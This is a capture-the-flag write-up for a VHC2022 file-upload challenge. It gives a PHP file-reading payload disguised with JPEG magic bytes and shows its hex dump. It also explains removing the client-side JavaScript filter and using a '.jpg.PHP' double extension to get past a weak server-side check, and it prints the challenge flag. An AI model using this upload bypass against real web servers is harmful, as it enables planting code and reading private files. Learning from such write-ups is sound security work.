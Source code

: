 # The Evil Assignment on Canvas

Oh no, when you're "chilling" with this CTF, your evil professor has given you an impossible assignment on Canvas, which dues tomorrow! The only way to pass his course is to pwn him! The show will never end! Let's go VinUni hackeerrrsss!

Challenge URL: http://ctflag.vhc.asia:13373/

## Techniques

PHP, JavaScript, file signature, client validation

## Solution

You are given a free hint that says.

```
You may need to search about "File Upload Vulnerability".

So basically, the idea behind the exploitation of this challenge is to construct a .php file that reads the Final Exam Answers. Then, we upload that php file on the website and try to execute it.
```

Look at the website. We are given another hint that the flag file is at `/var/www/FinalExamAnswers.txt`.

![canvas 1](canvas-1.png)

Just as hinted, we are asked to upload a PHP file to extract the flag at that directory. But the website forces us to upload JPEG images only instead.

Now let's play around with this website for a little bit. Upload [this](yuu.jpg) and see it does nothing! What a shame that this website puts such a small size limit.

Ok, how about [this one](kek.jpg)? 30KB should be small enough.

![canvas 2](canvas-2.png)

And yes, successfully submitted. It shows my GitHub avatar!

The requirements should be clear now:
- Upload a small JPEG file of less than 30KB (I suppose).
- Somehow inject the PHP code to show the flag.

Ok, so how do computers recognize a file format? Besides file name extensions, there is another thing called [magic number](https://en.wikipedia.org/wiki/File_format#Magic_number) in Unix systems, which is the first identifier bytes in a file. For JPEG images, their magic number is `FF D8 FF`, which is the first 3 bytes in hexadecimal.

Now for the PHP code. We are given the directory of the flag file, and then we need to build a PHP page to display it. Below is my code.

```php
<?php $fn = "/var/www/FinalExamAnswers.txt";
$myfile = fopen($fn, "r");
$content = fread($myfile,filesize($fn));
$lines = explode("\n", $content);
fclose($myfile);
?>
<html>
    <head>
    <title>Flag 700 ez</title>
    </head>
    <body>
        <h1><?php print_r($lines) ?></h1>
    </body>
</html>
```

Save it into a PHP file. Then inject the magic bytes `FF D8 FF` by using a Hex editor program. Play around with it, and the [hex dump](hexdump.txt) of the resulting file should be like this. Notice the first 3 bytes `ff d8 ff` in the dump.

```
00000000  ff d8 ff 3c 3f 70 68 70  20 24 66 6e 20 3d 20 22  |...<?php $fn = "|
00000010  2f 76 61 72 2f 77 77 77  2f 46 69 6e 61 6c 45 78  |/var/www/FinalEx|
00000020  61 6d 41 6e 73 77 65 72  73 2e 74 78 74 22 3b 0d  |amAnswers.txt";.|
00000030  0a 24 6d 79 66 69 6c 65  20 3d 20 66 6f 70 65 6e  |.$myfile = fopen|
00000040  28 24 66 6e 2c 20 22 72  22 29 3b 0d 0a 24 63 6f  |($fn, "r");..$co|
00000050  6e 74 65 6e 74 20 3d 20  66 72 65 61 64 28 24 6d  |ntent = fread($m|
00000060  79 66 69 6c 65 2c 66 69  6c 65 73 69 7a 65 28 24  |yfile,filesize($|
00000070  66 6e 29 29 3b 0d 0a 24  6c 69 6e 65 73 20 3d 20  |fn));..$lines = |
00000080  65 78 70 6c 6f 64 65 28  22 5c 6e 22 2c 20 24 63  |explode("\n", $c|
00000090  6f 6e 74 65 6e 74 29 3b  0d 0a 66 63 6c 6f 73 65  |ontent);..fclose|
000000a0  28 24 6d 79 66 69 6c 65  29 3b 0d 0a 3f 3e 0d 0a  |($myfile);..?>..|
000000b0  3c 68 74 6d 6c 3e 0d 0a  20 20 20 20 3c 68 65 61  |<html>..    <hea|
000000c0  64 3e 0d 0a 20 20 20 20  3c 74 69 74 6c 65 3e 46  |d>..    <title>F|
000000d0  6c 61 67 20 37 30 30 20  65 7a 3c 2f 74 69 74 6c  |lag 700 ez</titl|
000000e0  65 3e 0d 0a 20 20 20 20  3c 2f 68 65 61 64 3e 0d  |e>..    </head>.|
000000f0  0a 20 20 20 20 3c 62 6f  64 79 3e 0d 0a 20 20 20  |.    <body>..   |
00000100  20 20 20 20 20 3c 68 31  3e 3c 3f 70 68 70 20 70  |     <h1><?php p|
00000110  72 69 6e 74 5f 72 28 24  6c 69 6e 65 73 29 20 3f  |rint_r($lines) ?|
00000120  3e 3c 2f 68 31 3e 0d 0a  20 20 20 20 3c 2f 62 6f  |></h1>..    </bo|
00000130  64 79 3e 0d 0a 3c 2f 68  74 6d 6c 3e              |dy>..</html>|
0000013c
```

Change the file extension to `.jpg` in case you forget it, and upload again to the website.

![canvas 3](canvas-3.png)

But still, it doesn't seem to work. How about changing the file name to `something.jpg.PHP`?

Of course the website won't allow uploading any files except JPEG ones. But we can work around this problem by using F12 Tools!

Find the source code of the website, and we can see there is a file `filtr.js` that does the client-side validation of the uploading file.

```js
window.onload = function(){
	var upload = document.getElementById("fileSelect");
	var errorMsg = document.getElementById("errorMsg");
	var uploadMsg = document.getElementById("uploadtext");
	upload.value="";
	upload.addEventListener("change",function(event){
		var file = this.files[0];
		if (file.type != "image/jpeg"){
			upload.value = "";
			uploadMsg.style = "display : none;";
			errorMsg.style="display : block;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			uploadMsg.style = "display : block;";
			errorMsg.style="display : none;";
			success();
		}
	});
};
```

Basically it tells that if a file extension is not of `image/jpeg` type then the form does not repond. Just delete that part of code and the website will allow us to upload PHP files.

It works now!

![canvas 4](canvas-4.png)

We have actually uploaded a PHP file instead of a JPEG one. The problem is that the website has done "magic number" verification on the server-side, but it only checks whether `jpg` or `jpeg` is IN the filename, but not the actual file extension, and that's why we can find the flag in this way. 

If the server also checks for file extension, the challenge will become much more difficult and we may need to find any misconfiguration of the server to run PHP code in JPG file.

You can search for this keyword: `inject PHP into jpg`. I have uploaded my file [here](payload.png.php). You can refer to it.

## The Flag
```
VHC2022{l3v3L_4_c0d3_0f_c0ndUcT_v10l4t10n_f0R_pWn1nG_uR_pR0f}
```

Anyway, don't try to hack into [VinUni Canvas](https://vinuni.instructure.com/) for real unless you want a Level 4 Code of Conduct violation.